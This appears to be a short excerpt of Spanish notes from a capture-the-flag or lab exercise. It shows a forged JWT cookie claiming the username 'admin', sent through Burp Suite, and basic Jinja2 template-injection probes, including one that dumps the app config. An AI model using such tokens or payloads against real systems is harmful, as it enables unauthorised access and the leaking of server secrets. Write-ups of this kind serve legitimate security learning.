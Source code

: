 3. En burpsuite habría que mandar en la petición de esta forma
```bash
#la url tiene que ser /home
Cookie: auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.8JUBz8oy5DlaoSmr0ffLb_hrdSHl0iLMGz-Ece7VNtg
```

He estado explorando las url y capturándolas. Así a simple vista petición al servidor y con parámetros nos encontramos cuando hacemos un pedido.

Como hemos visto se trata de python por detrás por lo cual vamos a buscar payloads para poner en los datos de la petición.

### Jinja2 - Basic injection

```python
{{4*4}}[[5*5]]
{{7*'7'}} would result in 7777777
{{config.items()}}
```

Además he visto que puedo cambiar los valores por cuentas y aunque algunas dan problemas de servidor , otras me lo hacen

![](2022-06-30-18-55-46.png)
